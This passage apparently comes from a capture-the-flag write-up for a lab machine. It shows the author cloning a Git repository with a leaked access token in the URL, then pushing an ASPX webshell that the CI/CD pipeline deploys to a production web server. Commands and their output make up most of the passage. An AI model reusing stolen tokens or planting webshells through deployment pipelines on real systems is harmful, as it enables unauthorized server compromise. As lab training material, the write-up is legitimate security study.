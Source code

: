 Pulling `readme.md` confirms **CI/CD is active** - pushes to `main` automatically redeploy the production site on port 80.
Cloning with a token-in-URL is the simplest path:
```bash
❯ git clone http://43ce39bb0bd6bc489284f2905f033ca467a6362f@$target:3000/ellen.freeman/website.git
Cloning into 'website'...
remote: Enumerating objects: 165, done.
remote: Counting objects: 100% (165/165), done.
remote: Compressing objects: 100% (128/128), done.
remote: Total 165 (delta 35), reused 153 (delta 31), pack-reused 0
Receiving objects: 100% (165/165), 7.16 MiB | 1.90 MiB/s, done.
Resolving deltas: 100% (35/35), done.
❯ cd website
❯ ls
 assets   changelog.txt   index.html   readme.md

❯ cat readme.md
───────┬──────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: readme.md
───────┼──────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ # New Project Website
   2   │ 
   3   │ CI/CD integration is now active - changes to the repository will automatically be deployed to the webserver
───────┴──────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
Repo contents look like a typical static site: `index.html`, `assets/`, `changelog.txt`, `readme.md`.

<br>

# Foothold
Because the website is ASP.NET, I added a minimal **ASPX webshell** to the repo and pushed it to `main`:
```bash
❯ git add webshell.aspx
❯ git config user.name "ellen.freeman"
❯ git config user.email "ellen.freeman@lock.htb"
❯ git commit -m "hehe"
[main 0aa4f74] hehe
 1 file changed, 2156 insertions(+)
 create mode 100644 webshell.aspx
❯ git push
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 6 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 40.23 KiB | 10.06 MiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0 (from 0)
remote: . Processing 1 references
remote: Processed 1 references in total
To http://10.129.xx.xx:3000/ellen.freeman/website.git
   73cdcc1..0aa4f74  main -> main
```
